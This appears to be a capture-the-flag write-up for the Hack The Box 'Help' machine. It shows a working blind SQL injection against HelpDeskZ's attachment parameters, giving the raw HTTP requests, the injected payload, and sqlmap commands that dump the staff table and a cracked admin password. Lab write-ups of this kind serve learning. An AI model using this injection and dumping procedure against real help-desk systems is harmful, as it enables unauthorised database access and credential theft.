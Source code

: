 ## BACKGROUND

The injection first needs us to create a ticket and use an arbitrary attachment (anything that passes the filters works). Afterwards, we can access the attachment of a ticket with the following request:

```http 
GET /support/?v=view_tickets&action=ticket&param[]=4&param[]=attachment&param[]=1&param[]=6 HTTP/1.1
Host: help.htb
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.6367.118 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://help.htb/support/?v=view_tickets&action=ticket&param[]=4
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: lang=english; usrhash=0Nwx5jIdx%2BP2QcbUIv9qck4Tk2feEu8Z0J7rPe0d70BtNMpqfrbvecJupGimitjg3JjP1UzkqYH6QdYSl1tVZNcjd4B7yFeh6KDrQQ%2FiYFsjV6wVnLIF%2FaNh6SC24eT5OqECJlQEv7G47Kd65yVLoZ06smnKha9AGF4yL2Ylo%2BHZZCW4EA5R9Rw2rwm6U1bLvqNRMYseZIAwU7usDsw9%2Fw%3D%3D; PHPSESSID=agdn53n8li557814b1hpa50c52
Connection: close
```

However if we take a look at the code that processes this request:

```php
$attachment = $db->fetchRow("SELECT *, COUNT(id) AS total FROM ".TABLE_PREFIX."attachments WHERE id=".$db->real_escape_string($params[2])." AND ticket_id=".$params[0]." AND msg_id=".$params[3]);
```

The last parameter and the first parameters are simply concatenated to the query string without any sanitization, thus we can write:

```http
GET /support/?v=view_tickets&action=ticket&param[]=4&param[]=attachment&param[]=1&param[]=6%20or%201%3d1%20%3b%20--%20-%20 HTTP/1.1
Host: help.htb
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.6367.118 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://help.htb/support/?v=view_tickets&action=ticket&param[]=4
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: lang=english; usrhash=0Nwx5jIdx%2BP2QcbUIv9qck4Tk2feEu8Z0J7rPe0d70BtNMpqfrbvecJupGimitjg3JjP1UzkqYH6QdYSl1tVZNcjd4B7yFeh6KDrQQ%2FiYFsjV6wVnLIF%2FaNh6SC24eT5OqECJlQEv7G47Kd65yVLoZ06smnKha9AGF4yL2Ylo%2BHZZCW4EA5R9Rw2rwm6U1bLvqNRMYseZIAwU7usDsw9%2Fw%3D%3D; PHPSESSID=agdn53n8li557814b1hpa50c52
Connection: close
```

And we can change weather we get the file back or not. This is therefore a blind boolean sql injection (that we get the file back being interpreted as a true statement). I decided to pass this to sqlmap (since it was going to be faster than creating a code to exploit this) with the following commands:

```bash 
┌──(kali㉿kali)-[~]
└─$ sqlmap -r request -p 'param[]' --dbs 

...

available databases [5]:
[*] information_schema
[*] mysql
[*] performance_schema
[*] support
[*] sys
```

From the code of the original page i know that there should be a table that is like `staff` (it is defined install/install.php of the helpdeskz). So the following commands are:

```bash
┌──(kali㉿kali)-[~]
└─$ sqlmap -r request -p 'param[]' -D  support -T staff --columns

+------------------------+--------------------------+
| Column                 | Type                     |
+------------------------+--------------------------+
| admin                  | int(1)                   |
| status                 | enum('Enable','Disable') |
| avatar                 | varchar(200)             |
| department             | text                     |
| email                  | varchar(255)             |
| fullname               | varchar(100)             |
| id                     | int(11)                  |
| last_login             | int(11)                  |
| login                  | int(11)                  |
| newticket_notification | smallint(1)              |
| password               | varchar(255)             |
| signature              | mediumtext               |
| timezone               | varchar(255)             |
| username               | varchar(255)             |
+------------------------+--------------------------+

┌──(kali㉿kali)-[~]
└─$ sqlmap -r request -p 'param[]' -D  support -T staff -C username,password,admin --dump

... (using the default cracking lists) ...

+---------+----------+-----------------------------------------------------+
| admin   | username | password                                            |
+---------+----------+-----------------------------------------------------+
| 1       | admin    | d318f44739dced66793b1a603028133a76ae680e (Welcome1) |
+---------+----------+-----------------------------------------------------+

```

The following step i actually had to look it up, but it turns out that the username of the machine has to be guessed (it is not too hard, but until now all machines i did did not do this). We can now log in as [[help]].